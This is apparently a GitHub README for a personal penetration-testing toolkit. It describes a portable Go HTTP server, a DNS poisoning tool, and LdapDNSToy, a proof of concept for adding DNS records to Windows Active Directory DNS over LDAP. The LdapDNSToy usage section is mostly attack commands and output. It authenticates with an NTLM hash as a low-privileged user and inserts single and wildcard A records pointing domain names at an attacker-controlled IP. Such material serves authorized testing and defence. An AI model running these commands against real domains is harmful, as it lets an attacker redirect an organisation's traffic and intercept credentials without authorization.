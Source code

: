 # Vault
This is just a place where I put simple scripts and notes to access them quickly.

## SimpleHTTPServer.go
This is what you may need when doing a pentest and Python is not there to help you!
As GO builds a portable file for many architectures, it is our saviour :)
```
Test it:
    $ go run SimpleHTTPServer.go 8080 ./

Build it:
    $ env GOOS=linux GOARCH=arm GOARM=7 go build SimpleHTTPServer.go
```

## SDPT (Simple DNS Poisoner Tool) 
Sniffes for DNS queries going through your attacker host and provides fake answers to the specified DNS type A queries. It also forwards other queries different than type A and those pointing to FQDN that are not specifically included within the fake list.

## LdapDNSToy
This simple PoC allows to insert DNS type A records on a Windows Domain DNS server via LDAP by means of a Domain User (without additional privileges) using Python. 
* The original idea can be read here: https://blog.netspi.com/exploiting-adidns/

*Note: This is just a PoC, so don't use it in production systems or do it under your risk.*

### Basic Usage:
**1. Adding a new DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

Host nodito.bransh.local not found: 3(NXDOMAIN)
root@kali:/#
```
Let's add it pointing to the attacker-controlled IP 10.x.x.111:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name nodito
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```
Wait for a few minutes and then try to solve it again:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

nodito.bransh.local has address 10.x.x.111
root@kali:/# 
```

**2. Adding a wildcard DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name \*
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```

Now, try to resolve any hostname such as unknown or trulyunknown and observe how they ALL point to the same attacker-controlled IP:
```
root@kali:/# host unknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

unknown.bransh.local has address 10.x.x.111
```
```
root@kali:/# host trulyunknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

trulyunknown.bransh.local has address 10.x.x.111
root@kali:/# 
```
